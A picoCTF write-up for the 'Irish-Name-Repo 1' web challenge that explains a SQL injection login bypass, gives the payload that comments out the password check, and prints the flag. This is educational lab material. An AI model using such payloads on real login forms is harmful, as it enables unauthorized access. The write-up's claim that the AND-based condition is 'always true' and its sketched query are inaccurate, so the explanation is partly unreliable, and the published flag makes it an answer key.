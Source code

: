 # Irish-Name-Repo 1

Type: **Web Security**

There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

*This question is from picoCTF. PicoCTF flags are of the format: `picoCTF{answer}`.*

**Hint**: There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?

**Hint**: Try to think about how the website verifies your login.

## Solution

The website uses SQL to log people into the admin login, but it's not great SQL. It is probably something similar to:

```sql
SELECT username WHERE username = "{input}" AND password = "{input}"
```

So, in the username box, if you enter `user" AND 1=1 --`,

the SQL query becomes:

```sql
SELECT username WHERE username = "user" AND 1=1 --" AND password = ""
```

Since this is always true, the site allows you to automatically log in.

**Answer**: `picoCTF{s0m3_SQL_6b96db35}`

